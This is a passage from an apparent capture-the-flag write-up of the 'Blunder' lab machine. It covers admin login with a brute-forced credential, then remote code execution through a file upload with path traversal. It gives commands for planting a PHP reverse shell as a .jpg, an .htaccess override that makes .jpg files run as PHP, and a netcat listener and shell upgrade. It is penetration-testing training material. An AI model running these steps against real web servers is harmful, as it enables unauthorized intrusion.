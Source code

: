 We run the script and we get a valid credential

```python
fergus:RolandDeschain
```

We try to login to the portal using the credential and voila we get logged in to the admin panel.

Now we can try to exploit the other vulnerabilities and get a shell on the machine.

## Initial Foothold

We have already found that there is an arbitrary file upload vulnerability which can lead to remote code execution. The upload functionality checks for uploaded files on the portal and if the extension doesn't match then the doesn't get uploaded. But the UUID which sets the location is user-controllable and there is no error if we tamper with the data. This allows us to upload the file in any directory of the web application, this leads to remote code execution.
To start, we will copy a shell and name it as shell.jpg. According to the exploits, we found online we need to store our shell in the tmp directory inside the webroot.

```bash
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```

Modify the IP and Port parameter in the shell and rename it to shell.jpg, and upload the file. Keep in mind we need to change the UUID to ../../tmp, before we can upload the file.

```bash
mv shell.php shell.jpg
```

After we successfully upload the jpg we also need to update the .htaccess to make the jpg executable as PHP.
For that, we will create a file named htaccess.jpg with the following contents

```bash
RewriteEngine off
AddType application/x-httpd-php .jpg
```

While uploading we will change the filename to .htaccess and change the UUID to ../../tmp.

uploading .htaccess
Now, to get the shell back, we will start Netcat server on the port specified on our shell file and visit the URL http://blunder.htb/bl-content/tmp/shell.jpg

```shell
nc -lnvp 9001
```

Making the shell interactive

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
<press Ctrl+z> to send the shell to background
stty raw -echo
fg <press enter to bring to foreground>
```

## Enumeration
